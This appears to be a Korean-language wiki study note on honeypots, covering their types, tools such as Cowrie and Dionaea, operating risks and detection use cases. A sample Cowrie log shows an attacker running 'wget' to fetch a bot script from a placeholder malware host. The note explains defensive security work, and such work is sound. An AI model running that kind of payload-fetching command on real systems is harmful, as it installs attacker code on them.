



## 🌐 개요 (Overview)

**허니팟(Honeypot)** 은 공격자를 유인하여 **공격 기법을 분석**하고 **실제 시스템을 보호**하기 위한 의도적으로 취약하게 만든 미끼 시스템입니다.

---

## 🎯 허니팟의 목적



| 목적 | 설명 |
|------|------|
| **탐지** | 비정상 접근 시도 조기 발견 |
| **분석** | 새로운 공격 기법, 악성코드 수집 |
| **지연** | 공격자의 시간과 자원 소모 유도 |
| **보호** | 실제 서버로부터 관심 분산 |
| **법적 증거** | 공격 행위 기록 및 보존 |

---

## 📊 허니팟 분류

### 상호작용 수준에 따른 분류



| 유형 | 설명 | 장점 | 단점 |
|------|------|------|------|
| **Low Interaction** | 포트/배너만 에뮬레이션 | 설치 쉬움, 안전 | 정보 수집 제한적 |
| **Medium Interaction** | 일부 서비스 기능 제공 | 균형 잡힌 접근 | 중간 복잡도 |
| **High Interaction** | 실제 OS/서비스 운영 | 상세한 분석 가능 | **위험**, 복잡 |

### 배치 목적에 따른 분류

| 유형 | 목적 | 특징 |
|------|------|------|
| **연구용 (Research)** | 공격 기법 연구 | 상세 로깅, 학술/연구 기관 |
| **운영용 (Production)** | 실제 보안 강화 | 탐지 중심, 기업 네트워크 |

---

## 🔧 허니팟 유형별 상세

### 1. Low Interaction Honeypot

```plaintext
특징:
- 취약한 서비스의 일부만 시뮬레이션
- 공격 도구와 기본 스캔 탐지
- 악성코드 수집 가능

예시:
- 가짜 SSH 서버 (배너만 응답)
- 가짜 FTP 서버 (로그인 시도만 기록)
```

### 2. High Interaction Honeypot

```plaintext
특징:
- 실제 운영 체제와 서비스 사용
- 공격자의 모든 행동 관찰 가능
- 새로운 공격 기법, 제로데이 발견

위험:
- 공격자가 실제로 시스템 장악 가능
- 다른 시스템 공격의 발판이 될 수 있음
- 철저한 격리 필수 (네트워크, 방화벽)
```

### 3. Honeynet

**여러 허니팟을 연결한 네트워크**입니다.



**Honeywall 기능**:
- 모든 트래픽 기록
- 외부 공격 차단 (발신 제한)
- 데이터 흐름 통제

---

## 🛠️ 주요 허니팟 도구

### Low Interaction

| 도구 | 대상 서비스 | 특징 |
|------|------------|------|
| **Cowrie** | SSH, Telnet | 명령어 기록, 파일 업로드 캡처 |
| **Dionaea** | SMB, HTTP, FTP 등 | 악성코드 수집에 특화 |
| **Honeyd** | 다양한 서비스 | 가상 네트워크 생성 |
| **Kippo** | SSH | Cowrie의 전신 |

### High Interaction

| 도구 | 설명 |
|------|------|
| **Honeynet Project** | 완전한 허니넷 구축 솔루션 |
| **T-Pot** | 다중 허니팟 통합 플랫폼 |

### 전문화된 허니팟

| 도구 | 대상 |
|------|------|
| **Conpot** | ICS/SCADA 시스템 |
| **Thug** | 웹 브라우저 취약점 |
| **Glastopf** | 웹 애플리케이션 |
| **Mailoney** | SMTP 메일 서버 |

---

## 📋 Cowrie 허니팟 예시

### 설치 및 실행

```bash
# Docker로 Cowrie 실행
docker run -p 2222:2222 cowrie/cowrie

# 공격자가 접속 시도하면 기록됨
# 실제 쉘처럼 동작하지만 가상 환경
```

### 로그 예시

```json
{
  "timestamp": "2026-01-12T10:30:00",
  "src_ip": "192.168.1.100",
  "username": "root",
  "password": "admin123",
  "input": "wget http://malware.site/bot.sh",
  "message": "Command executed"
}
```

---

## ⚠️ 허니팟 운영 시 주의사항

### 법적 고려

```plaintext
✅ 허용:
- 자사 네트워크 내 설치
- 방어 목적의 탐지 및 분석

⚠️ 주의:
- 개인정보 수집 시 법적 검토 필요
- 공격자 신원 공개는 법적 문제 가능
```

### 기술적 위험

```plaintext
High Interaction 허니팟 위험:
1. 공격자가 허니팟을 점령할 수 있음
2. 다른 시스템 공격의 발판으로 악용 가능
3. 봇넷 C&C 서버화 위험

대응:
- 철저한 네트워크 격리
- 아웃바운드 트래픽 제한
- 실시간 모니터링
- 자동 초기화 (Roll Back)
```

### 탐지 회피

```plaintext
공격자들이 허니팟을 탐지하는 방법:
- VM 환경 탐지 (하드웨어 정보 확인)
- 비정상적인 응답 시간
- 특이한 시스템 설정
- 알려진 허니팟 시그니처

대응:
- 실제와 유사한 환경 구성
- 정기적인 데이터/로그 생성
- 다양한 취약점 시뮬레이션
```

---

## 📊 허니팟 vs 기타 보안 솔루션

| 특성 | 허니팟 | 방화벽 | IDS |
|------|--------|--------|-----|
| **목적** | 유인, 분석 | 차단 | 탐지 |
| **동작** | 수동적 대기 | 능동적 차단 | 트래픽 모니터링 |
| **오탐** | 거의 없음 | 정책 의존 | 있음 |
| **정보 수집** | ✅ 매우 상세 | 기본 로그 | 패킷/이벤트 |
| **위험** | 악용 가능 | 낮음 | 낮음 |

---

## 🎯 실무 활용 시나리오

### 1. 내부 위협 탐지

```plaintext
목적: 내부자 불법 접근 탐지
방법: 접근 금지 파일 서버에 허니 파일 배치
효과: 정상 접근 없음 → 접근 시도 = 100% 의심
```

### 2. 악성코드 수집

```plaintext
목적: 새로운 악성코드 샘플 수집
방법: Dionaea로 취약 서비스 시뮬레이션
효과: 자동 업로드되는 악성코드 캡처
```

### 3. 침입 조기 경보

```plaintext
목적: 네트워크 침입 조기 탐지
방법: 내부망 미사용 IP에 허니팟 배치
효과: 래터럴 무브먼트 탐지 (정상 트래픽 없음)
```

---

## 🔗 연결 문서 (Related Documents)

- [[firewall-ids-ips]] - 방화벽과 IDS/IPS
- [[attack-types]] - 네트워크 공격 유형
- [[apt-attacks]] - APT 공격 탐지
- [[malware-types]] - 악성코드 수집
- [[digital-forensics]] - 증거 수집
